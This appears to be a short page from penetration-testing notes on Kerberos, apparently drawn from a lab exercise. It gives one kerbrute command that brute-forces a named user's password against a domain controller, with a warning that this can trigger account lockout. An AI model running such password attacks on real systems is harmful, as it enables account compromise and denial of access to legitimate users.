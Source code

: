 ```yaml
---
layout: default
title: Kerberos
parent: EXPLOITATION
has_children: false
has_toc: false
---
```


{% include toc.html %}

## Bruteforcing passwords
This will lock the account if the user's account has a lockout policy:
```
./kerbrute_linux_amd64 bruteuser -d egotistical-bank.local ../lists/ncsc.passwds hsmith --dc 10.10.10.175
```
